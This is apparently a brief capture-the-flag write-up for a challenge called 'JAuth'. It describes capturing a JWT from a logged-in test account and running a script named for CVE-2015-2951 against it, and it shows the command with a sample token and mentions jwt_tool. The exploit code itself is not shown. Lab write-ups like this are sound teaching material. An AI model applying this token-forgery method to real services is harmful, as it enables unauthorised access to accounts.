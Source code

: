 # JAuth

## How to resolve?

Target site uses JWT.
After login by test account, you can see JWT by web brower developer tool.
After get JWT value, you launch [jwt_CVE-2015-2951.py](./jwt_CVE-2015-2951.py) with JWT value.

````bash
$ python3 jwt_CVE-2015-2951.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzQzMzM1MjQ3ODUwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzQuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzQzMzM1MjQ4fQ.2wos6KdTvWYo5jlwz4UxaUYt4QZ281YVnO832AVnVG
````

Of course, you can use [jwt_tool](https://github.com/ticarpi/jwt_tool).

In other words?